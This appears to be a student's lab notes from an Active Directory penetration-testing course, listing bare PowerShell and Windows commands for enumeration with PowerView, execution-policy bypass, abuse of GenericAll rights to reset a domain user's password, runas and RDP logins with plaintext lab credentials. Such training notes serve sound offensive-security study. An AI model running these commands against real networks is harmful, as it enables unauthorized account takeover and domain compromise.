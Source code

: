 ### 05-Oct-23 Thu

![](Pasted%20image%2020231005205250.png)

1. Initial Foothold
2. Enumeration
3. Lateral Movement
4. Domain Compromise

```
powershell -ExecutionPolicy Bypass -File script.ps1
```

```
Import-Moudle .\PowerView.ps1
```

```
Get-NetUser | select samaccountname,lastlogon
```

```
Get-NetUser | select samaccountname,serviceprincipalname
```

```
net group "Group-Name" /domain
```

```
Get-NetGroup "Group-Name" | select member
```

```
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```

```
Resolve-IPAddress $dnshostname
```

```
Find-LocalAdminAccess
```

```
Get-NetSession -ComputerName $dnshostname -Verbose
```

```
Get-Acl -Path HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
```

```
Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
```

![](Pasted%20image%2020231006211541.png)

```
.\PsLoggedon.exe \\files04
```

```
Get-ObjectAcl -Identity "Management Department" | ?
{$_.ActiveDirectoryRights -eq "GenericAll"} | select
SecurityIdentifier,ActiveDirectoryRights
```

```
"S-1-5-21-1987370270-
658905905-1781884369-1104" | Convert-SidToName
```

```
CORP\stephanie
```

```
net user jen Password123 /domain
```

```
runas /user:corp\jen powershell.exe
```

```
powershell -ep bypass
```

```
Import-Module .\PowerView.ps1
```

```
Find-LocalAdminAccess
```

```
xfreerdp /u:stephanie /d:corp.com /v:192.168.50.75
```

```
xfreerdp /u:jeffadmin /v:192.168.226.70 /smart-sizing:1920x1200
```

Get Shift Done!

```
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64
```

```
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```

```
net user /domain
```


